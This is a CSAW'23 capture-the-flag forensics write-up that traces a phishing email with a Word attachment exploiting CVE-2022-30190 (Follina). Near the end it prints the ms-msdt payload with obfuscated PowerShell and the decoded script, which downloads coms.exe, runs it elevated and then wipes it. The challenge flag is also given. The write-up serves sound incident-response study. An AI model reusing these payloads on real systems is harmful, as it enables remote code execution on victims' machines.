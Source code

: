 # CSAW'23

## Initial Access

> 
> How were they hacked?!?!
>

Tags: __ir__

## Solution
For the following challenges of this series we get a netcat connection and have to answer some questions to retrieve the next flag. The first question is

> (1/4) What is the subject line for suspicious email?

For this we go back to our mounted win10 virtual disk. We are looking for outlook traces and find them in the `Users\johnsnow\Documents\Outlook Files` folder.

```bash
$ ls -la
total 41572
drwxrwxrwx 1 root root     4096 Sep 10 20:33  .
drwxrwxrwx 1 root root     4096 Sep 10 20:37  ..
-rwxrwxrwx 2 root root 42427392 Sep 10 20:42 'Outlook Data File - johnsn0w.pst'
-rwxrwxrwx 2 root root   131072 Sep 10 20:33 '~Outlook Data File - johnsn0w.pst.tmp'
```

We can use [`libpst`](https://www.kali.org/tools/libpst/) to extract the files.

```bash
$ readpst 'Outlook Data File - johnsn0w.pst'
Opening PST file and indexes...
Processing Folder "Deleted Items"
Processing Folder "Inbox"
Processing Folder "Outbox"
Processing Folder "Sent Items"
Processing Folder "Calendar"
Processing Folder "Contacts"
Processing Folder "Journal"
Processing Folder "Notes"
Processing Folder "Tasks"
Processing Folder "Drafts"
Processing Folder "RSS Feeds"
        "Calendar" - 0 items done, 3 items skipped.
Processing Folder "Conversation Action Settings"
Processing Folder "Quick Step Settings"
Processing Folder "Junk Email"
        "Outlook Data File" - 14 items done, 0 items skipped.
        "Contacts" - 0 items done, 2 items skipped.
        "Inbox" - 64 items done, 6 items skipped.
```

So lets look for suspicious mails. We find this one that has a suspicious attachment. So we enter the subject `Monthly Finance Report - July` as answer.

```bash
From "felicia_finance@felicia.com" Mon Aug 14 22:33:16 2023
Received: by ffa7:c058:5c1e:3731:e638:8f0c:c881:b63f with SMTP id o17-80018; Mon, 14 Aug 2023 13:33:16 
Return-Path: 
ARC-Seal: i=1; a=rsa-sha256; t=7082; cv=none; d=felicia.com; s=arc-20160816;b=DEnJzjBxlIqkKM8ebkA6I65ZYF85FUEFQfPgp5oQ0bzT0EZ4gRpbHRkRZuF5AnT1B0WUVasts6jeaDwNrR9PIA==
ARC-Message-Signature: i=1; a=rsa-sha256; c=relaxed/relaxed; d=felicia.com; s=arc-20160816;h=to:subject:message-id:date:from:mime-version:dkim-signature;bh=0OEpc7jZDk0GZqQteVMp/g/TSUCJu5ponHDCziphhUo0==;fh=JPNfJ8ZkCG7INYswms9aNUdRWPl22WSqogSB4GOwBg====;b=
DKIM-Signature: v=1; a=rsa-sha256; c=relaxed/relaxed; d=felicia.com; s=3335; t=8711; x=277;h=from:to:subject:date:message-id;bh=5G99n9uXS3fTB99Q2n+2C36+hwLAmkNKeq0MO1h/+wpZ==;b=xNwueqFvsIn1alGtzSSE6SwFwIAo1yl/xpXQT6W60Q==
X-Sender-IP: 42.45.211.176
X-Sender: felicia_finance@felicia.com
X-Cross-Received-Date: Mon, 14 Aug 2023 13:33:16 
From: felicia_finance@felicia.com
To: hudsonhustles844@gmail.com
Subject: Monthly Finance Report - July
Date: Mon, 14 Aug 2023 13:33:16 
Status: RO
MIME-Version: 1.0
Content-Type: multipart/mixed;
	boundary="--boundary-LibPST-iamunique-9158815_-_-"


----boundary-LibPST-iamunique-9158815_-_-
Content-Type: text/plain; charset="us-ascii"

Hello Hudson Hustles,

We hope this email finds you well. We sincerely apologize for the delay in sending out our Monthly Finance Report for July. We understand the importance of timely information, and we appreciate your patience in this matter.

**Financial Overview:**
- Total Revenue: $78,450
- Total Expenses: $49,700
- Net Profit: $28,750

**Key Highlights:**
1. Surging Demand for Rentals: This month, we experienced a substantial increase in jet ski rentals, contributing to the boost in our revenue.
2. Streamlined Operational Costs: We've successfully implemented cost-saving measures in various operational areas, leading to greater resource efficiency and a more robust bottom line.
3. Investment Seminar Success: Our Investment Insights team conducted a highly successful seminar on navigating current market trends, receiving rave reviews and attracting potential new clients.

**Outlook for August:**
Looking ahead to August, we remain committed to building on our successes this month. We plan to expand our service offerings and continue growing our client base.

Please don't hesitate to reach out if you have any questions or require more detailed information. We value your partnership and trust in Felicia Finance.

Best regards,
Felicia Finance Team
----boundary-LibPST-iamunique-9158815_-_-
Content-Type: application/octet-stream
Content-Transfer-Encoding: base64
Content-Disposition: attachment; 
        filename*=utf-8''Hudson_Hustles_Financial_Report_July_2023.doc;
        filename="Hudson_Hustles_Financial_Report_July_2023.doc"

UEsDBBQAAAAAAO1qKVcAAAAAAAAAAAAAAAAGAAAAX3JlbHMvUEsDBBQAAAAAAO1qKVcAAAAAAAAA
AAAAAAAJAAAAZG9jUHJvcHMvUEsDBBQAAAAAAO1qKVcAAAAAAAAAAAAAAAAFAAAAd29yZC9QSwME
FAAAAAgA7WopV9+k0mxUAQAAIAUAABMAAABbQ29udGVudF9UeXBlc10ueG1stZTLasMwEEX3hf6D
0TbYSroopcTJoo9lG2j6Aao0TkRlSWgmr7/vOE5DKWkMTbIx2DP33jPCo+F4XbtsCQlt8KUYFH2R
gdfBWD8rxfv0Ob8TGZLyRrngoRQbQDEeXV8Np5sImLHaYynmRPFeStRzqBUWIYLnShVSrYhf00xG
pT/VDORNv38rdfAEnnJqPMRo+AiVWjjKntb8uSVJ4FBkD21jk1UKFaOzWhHX5dKbXyn5LqFg5bYH
5zZijxuEPJjQVP4O2Ole+WiSNZBNVKIXVXOXXIVkpAl6UbOyOG5zgDNUldWw1zduMQUNiHzmtSv2
lVpZ3+viQNo4wPNTtL7d8UDEgksA7Jw7EVbw8XYxih/mnSAV507Vh4PzY+ytOyGINxDa5+Bkjq3N
...
```

> (2/4) What is the SHA1 hash of the attachment?

Ok, for this we need to extract the attachment. We grab the base64 encoded attachment and place it in a file. Then decode the attachment so we can calculate the Sha1 sum.

```bash
$ cat attachment | base64 -d > attachment_decoded
$ sha1sum attachment_decoded
7b0b63e902504bfd7976e3911e054148f335a2e9  attachment_decoded
```

> (3/4) What is the CVE ID for the exploit used by this attachment?

Since we know we have the correct attachment we can upload the decoded file to [`VIRUSTOTAL`](https://www.virustotal.com/gui/home/upload). The scan gives us the CVE ID [`CVE-2022-30190`](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-30190).

> (4/4) What is the name of the file being downloaded by this exploit?

Lets inspect the actual attachment. We can unpack the `OLE` file with `binwalk` or `7z`. In `./word/_rels/document.xml.rels` we find this interesting bit.

```xml
<Relationship Id="rId996" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject" Target="http://<host omitted>/static?file=static.html!" TargetMode="External"/>
```

This seems to download the next stage, so lets download the file ourselfs.

```bash
$ wget http://<host omitted>/static?file=static.html -O static.html
--2023-09-18 17:46:06--  http://<host omitted>/static?file=static.html
Resolving <host omitted> (<host omitted>)... 172.67.210.233, 104.21.75.34, 2606:4700:3033::ac43:d2e9, ...
Connecting to <host omitted> (<host omitted>)|172.67.210.233|:80... connected.
HTTP request sent, awaiting response... 301 Moved Permanently
Location: https://<host omitted>/static?file=static.html [following]
--2023-09-18 17:46:06--  https://<host omitted>/static?file=static.html
Connecting to <host omitted> (<host omitted>)|172.67.210.233|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘static.html’
$ cat static.html
<script>location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'SW52b2tlLVdlYlJlcXVlc3QgLVVyaSBodHRwOi8vaW5mZWN0ZWQtYzIuY3Nhdy5pby9zdGF0aWM/ZmlsZ ...
```

This obviously is obfuscated, so we need to deobfuscate this to make sense out of it. Luckily this is not very hard. A base64 payload is decoded:

```powershell
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("SW52b2tlLVdlYlJlcXVlc3QgLVVyaSBodHRwOi8vaW5mZWN0ZWQtYzIuY3Nhdy5pby9zdGF0aWM/ZmlsZT1jb21zLmV4ZSAtT3V0RmlsZSBDOlxVc2Vyc1xQdWJsaWNcY29...=="))
```

When decoding the base64 string we get the following powershell script. And we can submit `coms.exe` as answer to the last question.

```powershell
Invoke-WebRequest -Uri http://<host omitted>/static?file=coms.exe -OutFile C:\Users\Public\coms.exe;Start-Process C:\Users\Public\coms.exe -Verb runAs;Set-Content -Path C:\Users\Public\coms.exe -Value ('0'*((Get-Content -Path C:\Users\Public\coms.exe).Length));Remove-Item -LiteralPath C:\Users\Public\coms.exe;
```

Flag `csawctf{ph15h1n6_15_7h3_m057_c0mm0n_v3c70r}`